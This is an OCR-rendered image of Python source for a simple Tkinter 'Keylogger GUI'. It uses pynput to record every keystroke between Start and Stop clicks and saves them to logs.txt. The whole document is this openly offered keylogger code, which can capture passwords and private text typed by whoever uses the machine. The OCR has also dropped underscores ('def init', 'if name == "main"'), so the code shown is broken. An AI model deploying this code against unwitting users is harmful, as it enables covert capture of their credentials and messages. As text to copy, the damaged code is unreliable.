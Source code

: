 import tkinter as tk
from tkinter import messagebox
from pynput import keyboard
import threading

class KeyLoggerGUI:
    def init(self, root):
        self.root = root
        self.root.title("Keylogger GUI")
        
        self.start_button = tk.Button(self.root, text="Start Keylogger", command=self.start_keylogger)
        self.start_button.pack(pady=10)
        
        self.stop_button = tk.Button(self.root, text="Stop Keylogger", command=self.stop_keylogger, state=tk.DISABLED)
        self.stop_button.pack(pady=10)
        
        self.key_list = []
        self.is_logging = False
        self.listener = None

    def start_keylogger(self):
        self.start_button.config(state=tk.DISABLED)
        self.stop_button.config(state=tk.NORMAL)
        self.is_logging = True
        
        def on_press(key):
            if self.is_logging:
                self.key_list.append(str(key))
        
        def on_release(key):
            if key == keyboard.Key.esc:
                self.stop_keylogger()
                return False
        
        self.listener = keyboard.Listener(on_press=on_press, on_release=on_release)
        self.listener.start()

    def stop_keylogger(self):
        self.start_button.config(state=tk.NORMAL)
        self.stop_button.config(state=tk.DISABLED)
        self.is_logging = False
        
        self.listener.stop()
        self.listener.join()
        
        with open('logs.txt', 'w') as log_file:
            log_file.write('\n'.join(self.key_list))
        
        self.key_list = []
        messagebox.showinfo("Keylogger", "Keylogging has been stopped. The log has been saved in 'logs.txt'.")

if name == "main":
    root = tk.Tk()
    keylogger_gui = KeyLoggerGUI(root)
    root.mainloop()
